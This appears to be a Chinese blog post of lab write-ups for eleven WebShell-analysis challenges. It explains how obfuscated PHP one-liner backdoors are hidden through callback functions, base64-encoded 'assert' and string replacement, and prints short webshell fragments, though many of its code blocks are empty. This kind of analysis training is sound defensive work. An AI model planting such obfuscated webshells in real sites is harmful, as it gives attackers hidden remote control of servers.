



19年的时候在墨者上面刷的，全扔笔记软件里了。现在还是写出来存blog里
- WebShell代码分析溯源(第1题)
- WebShell代码分析溯源(第2题)
- WebShell代码分析溯源(第3题)
- WebShell代码分析溯源(第4题)
- WebShell代码分析溯源(第5题)
- WebShell代码分析溯源(第6题)
- WebShell代码分析溯源(第7题)
- WebShell代码分析溯源(第8题)
- WebShell代码分析溯源(第9题)
- WebShell代码分析溯源(第10题)
- WebShell代码分析溯源(第11题)
WebShell代码分析溯源(第1题)
代码审计就掏出seay
1 |
|
一顿扫就完事了
使用旧版菜刀连接
1 | www/cn-right.php?POST=assert |
WebShell代码分析溯源(第2题)
seay分析到这里
1 |
|

直接写$array[0]直接弹出报错，加上[‘POST’]就成功弹出assert
语句合起来就是
连接
WebShell代码分析溯源(第3题)
seay又是一顿扫，审计一下源码，就是把一句话变形了
看到$gg就是把几个东西连接了起来
$g[1]就是s,chr(‘116’)就是t
phpinfo验证可以
连接起来就是assert
assert($_POST[get]);
直接一句话木马尝试
WebShell代码分析溯源(第4题)
seay没跑出来。。
手翻bin.php
一句话变形
php回调函数类一句话木马
array_filter
assert加密后YXNzZXJ0
array_filter()函数用回调函数过滤数组中的值。
这样回调函数名就是assert，构成一句话木马 assert($_POST[‘密码’])
直接菜刀连
base64_decode($_REQUEST['e'])($_POST['POST']);
WebShell代码分析溯源(第5题)
还是没出来，手审吧。回调函数，别问这么多。。
1 | 都是回调函数，密码是assert直接连接 |
WebShell代码分析溯源(第6题)
seay又没跑出来
直接找吧
涉及到了回调函数array_map
和之前有题如出一辙吧，传e为加密后的，菜刀连接
密码POST，拿到key
WebShell代码分析溯源(第7题)
1 | <?php |
uasort实例
这题文件不难找，主要就是理解uasort函数的用法
这里又涉及到了回调函数
assert与$_REQUEST[‘POST’]构成了一句话木马。
传入的assert经base64加密后通过菜刀连接，拿key
WebShell代码分析溯源(第8题)
通过对一些常用的变量传值进行查找，找到
1 | $e = $_REQUEST['e']; |

WebShell代码分析溯源(第9题)
自动审计没找到，就全局搜索REQUEST吧
1 | error_reporting(0); |

WebShell代码分析溯源(第10题)
1 |
|
主要是register_tick_function和declare函数
这两个函数通常都是一起使用的
ticks代表事件，次数,register_tcik_funtion用来指定tick的事件
传入assert,$_REQUEST[‘GET’]，在此构成了一句话木马，直接连接
密码GET,直接连接
WebShell代码分析溯源(第11题)
代码回炉一下
1 |
|
str_replace直接替换把ert替换为vey,把ass替换为ilo，所以直接用替换完的去代替。assert($_POST[1])一句话木马

菜刀直接连，拿key
总体思路是先满足mysql_conn.php的要求生成t.php，之后通过菜刀连接绕过过滤拿key